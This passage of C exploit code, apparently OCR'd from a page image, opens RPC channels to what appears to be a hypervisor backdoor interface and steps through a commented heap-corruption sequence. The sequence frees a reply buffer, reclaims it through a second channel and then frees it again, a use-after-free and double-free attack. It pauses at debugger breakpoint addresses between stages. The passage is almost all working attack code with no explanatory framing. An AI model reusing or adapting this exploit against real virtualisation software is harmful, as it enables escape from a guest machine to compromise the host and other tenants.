 ```c
        return;
    }
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s2),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
    channel_send_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s2),s2,&res);
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len:%d\n",len);
    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i++){
        channel_recv_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,i,data,&res);
    }
    printf("recv data:%s\n",data);
    //second step free the reply and let the other channel get it.

    channel_open(&chan[1].cookie1,&chan[1].cookie2,&chan[1].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_set_len(chan[1].cookie1,chan[1].cookie2,chan[1].num,strlen(s2),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }

    channel_send_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,strlen(s2)-4,s2,&res);
    if(!res){
        printf("fail to send data\n");
        return;
    }

    //free the output buffer
    printf("Freeing the buffer....,bp:0x5555556DD3EF\n");
    getchar();
    channel_recv_finish2(chan[0].cookie1,chan[0].cookie2,chan[0].num,&res);
    if(!res){
        printf("fail to recv finish1\n");
        return;
    }
    //finished sending the command, should get the freed buffer
    printf("Finishing sending the buffer , should allocate the buffer..,bp:0x5555556DD5BC\n");
    getchar();
    channel_send_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,4,&s2[16],&res);
    if(!res){
        printf("fail to send data\n");
        return;
    }

    //third step,free it again
    //set status to be 4
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
```